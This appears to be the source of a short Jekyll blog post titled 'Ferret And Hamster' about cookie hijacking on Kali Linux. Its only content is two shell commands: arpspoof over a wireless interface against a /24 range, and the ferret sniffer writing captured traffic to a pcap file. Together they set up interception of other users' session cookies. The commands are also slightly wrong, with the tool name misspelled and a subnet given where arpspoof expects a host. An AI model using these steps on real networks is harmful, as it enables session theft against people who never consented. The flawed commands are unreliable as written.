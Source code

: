 ```yaml
---
layout: post
title: Ferret And Hamster
categories: [Hacking]
tags: [Kali, Linux, Hacking]
description: Coockie Hijack
fullview: true
comments: true
---
```


{% highlight yaml %}
$arpspoof -i wlan0 -t (RANGE_OF_IP/24)
$feret -i wlan0 -r sniff.pcap
{% endhighlight %}
